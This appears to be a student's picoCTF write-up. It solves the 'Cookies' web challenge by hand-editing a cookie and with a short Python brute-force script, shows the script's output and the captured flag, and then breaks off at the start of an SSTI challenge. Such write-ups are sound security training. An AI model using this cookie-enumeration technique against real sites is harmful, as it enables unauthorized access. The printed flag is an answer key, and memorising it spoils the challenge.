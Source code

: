 # 1.Cookies:
> Who doesn't love cookies? Try to figure out the best one. (http://mercury.picoctf.net:64944/)

## Solution:
- I first opened the website in my web browser and opened the inspection page to find the cookie .
- I navigated to the application tab and to the cookie area when I observed:
- <img width="500" height="500" alt="cookie" src="https://github.com/user-attachments/assets/5c320f2c-156f-4298-96ec-611193230749" />
- so here we see that `cookie: name=-1`
- now I tried entering different names of cookies in a search box `snickerdoodle` changed `name=0` . Next , `chocolate chip` changed `name=1` etc. , so the values kept changing with the input of different cookie names and it went back to `name=-1` otherwise.
- From this , I noticed with every accepted response , the webpage (http://mercury.picoctf.net:64944/check), checks the cookie and displays a message.
- Method 1: I tried changing the value of the cookie and reload the webpage , after trying numbers 1-18 , I found that at 18 it displays the flag.
<img width="500" height="500" alt="flag" src="https://github.com/user-attachments/assets/ff9d0140-f03e-4eaa-88b8-6703e7e7fd35" />

- Method 2: I tried to learn how to write a python code to bruteforce through a set of values .
- I used the following code with the help of A.I to brute force it.
```
#!/usr/bin/env python3
import requests, re

URL = "http://mercury.picoctf.net:64944/"         
pat = re.compile(r"picoCTF\{.*?\}", re.I)

for i in range(25):                                
    r = requests.get(URL, cookies={"name": str(i)}, timeout=6)
    if pat.search(r.text):
        print("FOUND for name=", i, "->", pat.search(r.text).group(0))
        break
    print(i, "status", r.status_code, "len", len(r.text))
```
- using the nano editor in the terminal , I added this code and ran it using python3 :
```
:~$ python3 quick-check.py
0 status 200 len 1779
1 status 200 len 1780
2 status 200 len 1780
3 status 200 len 1776
4 status 200 len 1776
5 status 200 len 1779
6 status 200 len 1777
7 status 200 len 1771
8 status 200 len 1774
9 status 200 len 1770
10 status 200 len 1774
11 status 200 len 1772
12 status 200 len 1772
13 status 200 len 1774
14 status 200 len 1770
15 status 200 len 1776
16 status 200 len 1774
17 status 200 len 1771
FOUND for name= 18 -> picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}
```
## Flag:
`picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`

# 2.SSTI1
> I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!
